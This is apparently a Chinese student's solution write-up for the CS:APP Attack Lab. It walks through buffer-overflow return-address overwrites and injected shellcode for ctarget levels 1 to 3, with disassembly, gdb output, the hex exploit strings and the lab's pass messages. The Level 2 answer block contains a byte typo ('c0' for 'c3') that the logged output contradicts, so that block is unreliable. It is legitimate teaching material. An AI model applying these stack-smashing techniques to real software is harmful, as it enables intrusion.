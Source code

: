 ### Level1

首先`objdump -d ctarget.c > ctarget.s`得到程序的汇编代码

直接看漏洞函数`getbuf()`

```
00000000004017a8 <getbuf>:                                   
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

我们可以看到开辟了`0x28`的空间，那么我们`0x28`的空间后就是`getbuf()`函数作为被调用者需要返回到调用函数的地址。那么我们就可以填满`0x28`后控制程序返回到我们想去的地方。

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
c0 17 40
```

`0x4017c0`为`touch1`函数的返回地址。

```text
linux> ./hex2raw < t1.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 
```

### Level2

`touch2`函数如下：

```c
void touch2(unsigned val){
    vlevel = 2;
    if (val == cookie){
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

我们要想成功调用`touch2`函数，不仅要返回到`touch2`，还得让`val==cookie`才能成功，我们知道这里的第一个参数是保存在`rdi`寄存器中，那么我们的cookie值`0x59b997fa`应该保存在`rdi`寄存器中。这里我们利用`shellcode`，将程序溢出`0x28`后返回到我们的`shellcode`中。那么我们的`shellcode`为

```text
mov    $0x59b997fa, %rdi //cookie放入rdi中
pushq  $0x4017ec         //touch2函数地址
retq                    //返回到touch2函数
```

此时我们需要得到它的机器码

```
linux> gcc -c t2.s
linux> objdump t2.o -d
t2.o：     文件格式 elf64-x86-64
Disassembly of section .text:
0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   
```

既然我们的`shellcode`在`rsp`上，那么我们还需要通过`gdb`调试获得`rsp`的地址

```
 RBP  0x55685fe8 —▸ 0x402fa5 ◂— push   0x3a6971 /* 'hqi:' */
 RSP  0x5561dc78 ◂— 0
 RIP  0x4017ac (getbuf+4) ◂— mov    rdi, rsp
```

我们得到`rsp`的地址为`0x5561dc78`

那么我们的最后答案是

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c0 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

```
linux> ./hex2raw < t2.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 
```

### Level3

```c
void touch3(char *sval){
    vlevel = 3;
    if (hexmatch(cookie, sval)){
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
int hexmatch(unsigned val, char *sval){
    char cbuf[110];
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```

这里会将传入的字符串与字符串`59b997fa`，而这个字符串就是我们的cookie，思路就和上一题差不多，这里需要注意的是`hexmatch`函数还有`strncmp`函数，会覆盖`getbuf`栈帧的数据，所以我们选择一个安全的地方放入我们的数据，那么就是在调用`getbuf`函数前的`test`函数的栈中。

我们通过`gdb`调试，在`call getbuf`前下个断点可以看到

```
pwndbg> info r rsp
rsp            0x5561dca8	0x5561dca8
```

那么接下来是我们的汇编代码

```text
movq    $0x5561dca8, %rdi     //把59b997fa字符串放在栈上，再把地址作为参数传给touch3函数
pushq   0x4018fa
ret
```

```
linux> gcc -c t3.s
linux> objdump -d t3.o

Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 a8 dc 61 55    mov    $0x5561dca8,%rdi
   7:   68 fa 18 40 00          pushq  $0x4018fa
   c:   c3                      retq
```

然后得到`59b997fa`字符串的ascii码`35 39 62 39 39 37 66 61`

最后的答案是

```
48 c7 c7 a8 dc 61 55 68      //0x5561dc78			
fa 18 40 00 c3 00 00 00		//0x5561dc80			
00 00 00 00 00 00 00 00		//0x5561dc88			
00 00 00 00 00 00 00 00		//0x5561dc90			
00 00 00 00 00 00 00 00		//0x5561dc98	从0x5561dc78到0x5561dca0为		
78 dc 61 55 00 00 00 00		//0x5561dca0	getbuf函数的栈帧，后面其父函数
35 39 62 39 39 37 66 61		//0x5561dca8	test函数的栈帧	
```

```
linux> ./hex2raw < t3.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61
```

